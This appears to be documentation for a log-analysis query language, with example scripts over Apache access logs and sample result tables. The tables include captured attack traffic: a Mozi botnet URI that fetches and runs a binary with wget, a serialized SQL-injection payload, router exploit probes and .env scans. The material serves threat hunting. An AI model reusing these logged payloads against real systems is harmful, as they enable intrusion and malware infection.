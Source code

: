 ### ./view/view_single_file.sx
```jsx
LIST('file:/data/logs/web/access.log')
| parse(pattern:$[./apache_access_log.sxp])
```

| clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                          | extra  |
|-------------------|-----------------|--------|--------|---------------------------------|------|--------------------|------------:|----------------|---------:|------:|---------------------------|----------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36 | *null* |
| `134.119.218.243` | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36  | *null* |
| `162.243.143.216` | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                          | *null* |
....

### ./view/view_indexed_by_pathtime.sx
```jsx
INIT(from:now()[-14 day], to:now());
// from other scripts: @[/path/to/this/view/view_indexed_by_pathtime.sx](from:now()[-2 hour], to:now())

LIST(src:'sas://remote/logs/apache/$yyyy$/$MM$/$dd$/$yyyy$-$MM$-$dd$_*access.log', _tz:'GMT')
| filter_out(file_name like '%intranet_access.log' OR file_name like '%sports_club_access.log')
| filter(path_time BETWEEN $from[-1 day] AND $to)
| parse(pattern:$[./apache_access_log.sxp])
| filter(timestamp BETWEEN $from AND $to)
```

| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri          | httpversion | invalidRequest | response | bytes | referrer | agent       | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|--------------|------------:|----------------|---------:|------:|----------|-------------|--------|
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:25:01.000 +0300` | GET  | /            |         1.1 | *null*         |      200 |  2120 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:37:21.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |   437 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:50:14.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |  2320 | ‑        | curl/7.69.1 | *null* |
....

### ./query_clientip_metainfo.sx
```jsx
@[./view/view_default.sx]
| select(clientIp, cc(clientIp), asname(clientIp), geo(clientIp), *)
```

| clientIp          | cc | asname                          | geo               | host            | ident  | auth   | timestamp                       | verb | uri                                                                                           | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                               | extra  |
|-------------------|----|---------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|-----------------------------------------------------------------------------------------------|------------:|----------------|---------:|------:|---------------------------|---------------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | US | AS63949 Linode, LLC             | 37.5625,‑122.0004 | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36      | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `162.243.143.216` | US | AS14061 DIGITALOCEAN‑ASN        | 37.7353,‑122.3732 | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list                                                                            |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                               | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:52:36.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `185.172.111.210` | NL | AS206898 Server Hosting Pty Ltd | 52.3824,4.8995    | 185.172.111.210 | *null* | *null* | `2020‑06‑01 08:05:34.000 +0300` | POST | /GponForm/diag_Form?style/                                                                    |         1.1 | *null*         |      404 |  1989 | ‑                         | curl/7.3.2                                                                                                          | *null* |
| `223.149.176.156` | CN | AS4134 Chinanet                 | 25.2239,112.1703  | 223.149.176.156 | *null* | *null* | `2020‑06‑01 08:10:23.000 +0300` | GET  | /shell?cd+/tmp;rm+‑rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws |         1.1 | *null*         |      404 |   493 | ‑                         | Hello, world                                                                                                        | *null* |
...

### ./query_by_keyword.sx
```jsx
@[./view/view_default.sx]
| filter(_raw_text like '%union select%')
```

| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer                                                                                                                                                                                                                                                                            | agent                                                                         | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------|--------|
| `175.126.145.10` | 175.126.145.10 | *null* | *null* | `2020‑06‑04 02:39:27.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:28.0) Gecko/20100101 Firefox/28.0 | *null* |
| `106.54.4.180`   | 106.54.4.180   | *null* | *null* | `2020‑06‑05 12:38:07.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0 | *null* |
| `45.83.254.66`   | 45.83.254.66   | *null* | *null* | `2020‑06‑09 14:54:21.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0  | *null* |
...


### ./query_hits_by_status_range.sx
```jsx
@[./view/view_default.sx]
| select(
  day:timestamp[1 day],
  total:count(*),
  status_200:count(response=200),
  status_1xx:count(response between 100 and 199),
  status_2xx:count(response between 200 and 299),
  status_3xx:count(response between 300 and 399),
  status_4xx:count(response between 400 and 499),
  status_5xx:count(response between 500 and 599)
)
| group(day)
| select(*, fail_4xx_ratio:ROUND(10000.0*status_4xx/total)/100.0)
```

| day                             | total | status_200 | status_1xx | status_2xx | status_3xx | status_4xx | status_5xx | fail_4xx_ratio |
|---------------------------------|------:|-----------:|-----------:|-----------:|-----------:|-----------:|-----------:|---------------:|
| `2020‑06‑01 00:00:00.000 +0300` |    70 |         44 |          0 |         44 |          0 |         26 |          0 |          37.14 |
| `2020‑06‑02 00:00:00.000 +0300` |   148 |         99 |          0 |         99 |          0 |         49 |          0 |          33.11 |
| `2020‑06‑03 00:00:00.000 +0300` |   114 |         88 |          0 |         88 |          0 |         26 |          0 |          22.81 |
| `2020‑06‑04 00:00:00.000 +0300` |  1091 |         80 |          0 |         80 |          0 |       1010 |          1 |          92.58 |
| `2020‑06‑05 00:00:00.000 +0300` |  1098 |        101 |          0 |        101 |          0 |        996 |          1 |          90.71 |
...

### ./query_top_countries.sx
```jsx
@[./view/view_default.sx]
| select(count(*), cc(clientIp))
| group(cc)
| sort(count desc)
```

| count | cc |
|------:|----|
|  4743 | CN |
|  4165 | US |
|  1937 | RU |
|  1837 | TW |
|  1115 | GB |
...

### ./query_find_fake_google_bots.sx
```jsx
@[./view/view_default.sx]
| select(ASN(clientIp), *)
| filter(
     agent like '%Googlebot/%'
  or agent like 'AdsBot-Google/%'
  or agent like '%AdsBot-Google-Mobile;%'
  or agent like '%Google-Ads-Overview%'
)
| filter_out(asn = 15169)		
| select(asname(clientIp), geo(clientIp), cc(clientIp), agent, *)
```

| asname                      | geo            | cc | agent                                                                    |   asn | clientIp       | host         | ident  | auth   | timestamp                       | verb | uri      | httpversion | invalidRequest | response | bytes | referrer | extra  |
|-----------------------------|----------------|----|--------------------------------------------------------------------------|------:|----------------|--------------|--------|--------|---------------------------------|------|----------|------------:|----------------|---------:|------:|----------|--------|
| AS64425 SKB Enterprise B.V. | 52.3759,4.8975 | NL | Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html) | 64425 | `5.182.210.16` | 5.182.210.16 | *null* | *null* | `2020‑08‑07 15:44:40.000 +0300` | GET  | /api.php |         1.1 | *null*         |      404 |   437 | ‑        | *null* |

### ./query_top_response_len.sx
```jsx
@[./view/view_default.sx]
| select(timestamp, clientIp, verb, bytes, uri, *)
| sort(bytes desc)
| limit(50)
```

| timestamp                       | clientIp         | verb   |      bytes | uri                    | host           | ident  | auth   | httpversion | invalidRequest | response | referrer | agent                                                                        | extra  |
|---------------------------------|------------------|--------|-----------:|------------------------|----------------|--------|--------|------------:|----------------|---------:|----------|------------------------------------------------------------------------------|--------|
| `2020‑06‑04 23:43:13.000 +0300` | `183.83.145.187` | GET    | 6529322873 | /secret1337/backup.tgz | 183.83.145.187 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 | *null* |
| `2020‑06‑13 20:36:48.000 +0300` | `172.105.89.161` | GET    |  239233441 | /secret1337/mysql.sql  | 172.105.89.161 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 zgrab/0.x                                                        | *null* |
| `2020‑06‑25 20:22:14.000 +0300` | `217.18.21.2`    | *null* |       3681 | *null*                 | 217.18.21.2    | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑25 15:59:32.000 +0300` | `90.191.124.115` | *null* |       3665 | *null*                 | 90.191.124.115 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
...

### ./join_with_tor_exit_nodes.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| tor_ip            | tor_time                        | tor_id                                   | clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer | agent                                                                                                              | extra  |
|-------------------|---------------------------------|------------------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|----------|--------------------------------------------------------------------------------------------------------------------|--------|
| `185.220.102.6`   | `2020‑08‑12 13:23:50.000 +0300` | A2DB293FFC5A76A718863BF1AEDBC8DFB1CB1097 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.220.102.6`   | `2020‑08‑12 12:57:46.000 +0300` | A2534EF23390CAE079B1586F0FDF9CE11F556062 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |  1813 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   520 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `185.220.101.203` | `2020‑08‑12 13:06:15.000 +0300` | C8F6F6C1834454F1E927A4A05E8E54EB623D4B73 | `185.220.101.203` | 185.220.101.203 | *null* | *null* | `2020‑06‑19 20:26:05.000 +0300` | GET  | /async/                   |         1.1 | *null*         |      404 |   493 | ‑        | Mozilla/5.0 (Windows ME 4.9; rv:31.0) Gecko/20100101 Firefox/31.7                                                  | *null* |
...
